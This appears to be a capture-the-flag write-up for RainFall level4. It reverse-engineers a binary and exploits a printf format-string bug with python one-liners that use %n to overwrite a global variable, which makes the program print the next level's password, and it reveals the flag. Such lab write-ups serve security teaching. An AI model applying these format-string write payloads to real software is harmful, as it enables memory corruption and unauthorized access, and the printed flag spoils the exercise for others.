

### notes
```c
0x08049810  m    : global variable m
0x08048444  p    : fn : called in n
0x08048457  n    : fn : called in main
0x080484a7  main : rak 3arf
```

### 0x080484a7 : main() : disassembly
* __`<0> -> <+12> : after stack aligement, the main function just call the n function and exit, that's all`__
```c
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave  
0x080484b3 <+12>:	ret   
```
### 0x08048457 : n() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    char *buffer_1[512] = ebp-520
    // 0x218 ... 536
    // 0x208 ... 520
    // 0x200 ... 512
    // 0x1025544 ... 16930116
}
```
* __`<0> -> <+12> : push old ebp to stack, push value of old esp into ebp, then allocate 536 bytes for n stack frame`__
```c
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,536
```
* __`<+9> -> <+35> : fill 511 character from user input to buffer_1 (511 + \0 = 512 )`__
```c
0x08048460 <+9>:	mov    eax,ds:0x8049804 // stdin
0x08048465 <+14>:	mov    DWORD PTR [esp+8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+4],512
0x08048471 <+26>:	lea    eax,[buffer_1]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
fgets(buffer_1, 512, stdin)
```
* __`<+40> -> <+49> : call p function with buffer_1 as argument`__
```c
0x0804847f <+40>:	lea    eax,[buffer_1]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
p(buffer_1)
```
* __`<+54> -> <+64> : compare value of global variable m with 16930116, if equal , go to <n+66>`__
```c
0x0804848d <+54>:	mov    eax,ds:0x8049810(m variable)
0x08048492 <+59>:	cmp    eax,16930116
0x08048497 <+64>:	jne    0x80484a5 <n+78>
if (m != 16930116) { jump to <n+78> (return)}
```
* __`<+66> -> <+73> : print .pass content with system`__
```c
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590 // "/bin/cat /home/user/level5/.pass"
0x080484a0 <+73>:	call   0x8048360 <system@plt>
system("/bin/cat /home/user/level5/.pass")
```
* __`<+78> -> <+79> : exit the n function`__
```c
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
return
```
### 0x08048444 : p(arg1) : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    eip = ebp+4
    arg1 = ebp+8

    // 0x18 ... 24
}
```
* __`<0> -> <+3> : push old ebp to stack, push value of old esp into ebp, then allocate 24 bytes for p stack frame`__
```c
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp, 24
```
* __`<6> -> <+12> : print the user input in buffer_1 passed from n to p function`__
```c
0x0804844a <+6>:	mov    eax,DWORD PTR [arg1]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
printf(arg1)
```
* __`<17> -> <+18> : exit p function and continue in n function`__
```c
0x08048455 <+17>:	leave  
0x08048456 <+18>:	ret  
```

### Code Prediction 
```c
int m = 0;

void p(arg1) {
    printf(arg1);
    return;
}

void n() {
    char *buffer_1[512];

    fgets(buffer_1, 512, stdin);

    p(buffer_1);

    if (m == 16930116) {
        system("/bin/cat /home/user/level5/.pass");
    }

    return;
}

int main(int argc(ebp+0x8), char **argv(ebp+12)) {
    n()
    return (0);
    
}

```
### Stack Illustration
[](./Ressources/level4-stack-diagram.png)

---
### Process of the Exploit
- what program do ? :
    - there is a global variable m = 0
    - the program takes 511 character from the user input into buffer_1
    - calls printf with that buffer_1
    - make a comparison : if `(m == 16930116) {execute the shell}` else `exit`
                            
- road to goal ? :
    - same as [level3](../level3/readme.md)
    - we will have to fill m with the value _16930116_ using printf format
    - the difference here is that we cant fill it by printing a character 16930116 times , will be block the stdin since the input will be huge
    - we can use the space padding solution __"%[space padding number]d"__
- start debug  :
    - lets find the position of our m address when passed to printf
        ```c
        level4@RainFall:~$ (python -c 'print  "\x08\x04\x98\x10"[::-1] + "%p " * 20') | ./level4
        0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718 0x804848d  0xbffff510 0x200      0xb7fd1ac0 
        0xb7ff37d0 0x8049810  0x25207025 0x70252070  0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
                    ↑ 
                    here at position : 12
        ```
    - the m address is placed at the 12th position
    lets test filling the m with val: 1337 for example:
        ```c
        (gdb) b *0x08048492
        Breakpoint 7 at 0x8048492
        (gdb) 
        (gdb) run <<< $(python -c 'print "\x08\x04\x98\x10"[::-1] + "%1333d" + "%12$n"')
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y

        Starting program: /home/user/level4/level4 <<< $(python -c 'print "\x08\x04\x98\x10"[::-1] + "%1333d" + "%12$n"')
                                                                                                        -1208015184
        Dump of assembler code for function n:
        0x08048457 <+0>:	push   ebp
        0x08048458 <+1>:	mov    ebp,esp
        0x0804845a <+3>:	sub    esp,0x218
        0x08048460 <+9>:	mov    eax,ds:0x8049804
        0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
        0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
        0x08048471 <+26>:	lea    eax,[ebp-0x208]
        0x08048477 <+32>:	mov    DWORD PTR [esp],eax
        0x0804847a <+35>:	call   0x8048350 <fgets@plt>
        0x0804847f <+40>:	lea    eax,[ebp-0x208]
        0x08048485 <+46>:	mov    DWORD PTR [esp],eax
        0x08048488 <+49>:	call   0x8048444 <p>
        0x0804848d <+54>:	mov    eax,ds:0x8049810
        => 0x08048492 <+59>:	cmp    eax,0x1025544
        0x08048497 <+64>:	jne    0x80484a5 <n+78>
        0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
        0x080484a0 <+73>:	call   0x8048360 <system@plt>
        0x080484a5 <+78>:	leave  
        0x080484a6 <+79>:	ret    
        End of assembler dump.

        Breakpoint 5, 0x08048492 in n ()
        (gdb) i r
        eax            0x539	1337  <======= HERE is the new value of M variable
        ecx            0x0	0
        edx            0x0	0
        ebx            0xb7fd0ff4	-1208152076
        esp            0xbffff500	0xbffff500
        ebp            0xbffff718	0xbffff718
        esi            0x0	0
        edi            0x0	0
        eip            0x8048492	0x8048492 <n+59>
        eflags         0x200286	[ PF SF IF ID ]
        cs             0x73	115
        ss             0x7b	123
        ds             0x7b	123
        es             0x7b	123
        fs             0x0	0
        gs             0x33	51
        (gdb) 

        ```
    - good , now lets just instead of 1337 we try with 16930116
        __`(python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112x" + "%12$n"'; cat - ) | ./level4`__

---
### Solution :

```shell
level4@RainFall:~$ (python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"') | ./level4 


[...]


                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ 
```

__flag : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`__

